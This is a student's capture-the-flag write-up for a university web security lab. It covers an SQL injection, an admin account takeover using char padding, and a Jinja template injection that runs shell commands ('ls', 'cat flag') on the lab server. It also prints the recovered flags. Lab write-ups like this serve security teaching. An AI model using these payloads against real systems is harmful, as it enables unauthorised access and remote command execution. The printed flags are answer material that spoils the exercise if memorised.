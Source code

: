 ## Secrets
### SQLi
#### COMP6443{WAIT_THERES_SQLI_THAT_ISNT_JUST_OR_1=1_???_z5346077_bOiYam1Lg0SDG7dB0Jig}
#### COMP6443{HUH_SQL_THAT_ISNT_INJECTION_z5346077_v8zQtbXV1aQ7uMqieN0h}
1. Check `robots.txt` to view disallowed paths: `/admin/dashboard`, `/source`.
2. Go to `/admin/dashboard`. Register a new user, e.g. username: *user*, password: *user*, secret: *user*. 
3. Check source code that is available in `/source`. 
4. There are two flags: **update empty string as the secret** and **get admin's secret**. The vulnerabilities are in the *add_user* and *update_secret* functions. 
```python
def get_secret(username):
    try:
        secret = curs.execute('SELECT secret FROM secrets WHERE username = %s', (username,)).fetchone()
        if secret == None:
            return 'user does not exist'
        elif secret[0] == '':
            return 'COMP6443{SECRETS-1_FLAG_HERE}'
        else:
            return secret[0]
    except:
        return 'database error detected'
```
```sql
DROP TABLE IF EXISTS secrets;
CREATE TABLE secrets (
    uid INTEGER NOT NULL PRIMARY KEY AUTO_INCREMENT,
    username char(64),
    password char(64),
    secret text
);
```
5. Update secret with SQLi payload, `" WHERE USERNAME='USER1' -- TEST`. 
6. The database name and password as *char(n)*. This data type stores data in length *n*, so the data is padded with spaces. 
7. Register a new account as admin by using username: *admin* with a tailing whitespace, and a random password: *admin*. 
8. The user now has admin privilege. 

### RCE
#### COMP6443{THAT_REALLY_INJECTED_MY_TEMPLATES_z5346077_9nO6gNPhG+b+cTIa4SN1}
1. The user can now access admin page. Since it tells to specify the user, the user can specify the username in the url: `https://secrets.quoccabank.com/admin?username=user1`. 
2. Inspect the response header. The website uses *gunicorn* which uses gunicorn, Python and bootstrap. Therefore, it is more likely to use Jinja template engine and is vulnerable to Server-side template injection (SSTI). 
3. Create a new account with random username and password, e.g. username: *user2* and password: *user*. Insert `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}` as the secret payload. 
4. `ls` lists the directory: *app.py*, *flag*, *requirements.txt* and *src*. 
5. Log into the admin account and access the `/admin` page with username: *user2*, e.g. `https://secrets.quoccabank.com/admin?username=user2`.
6. Log in back to the user2 account and update the secret with `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}`. 
7. Repeat step 5.
```python
import requests
```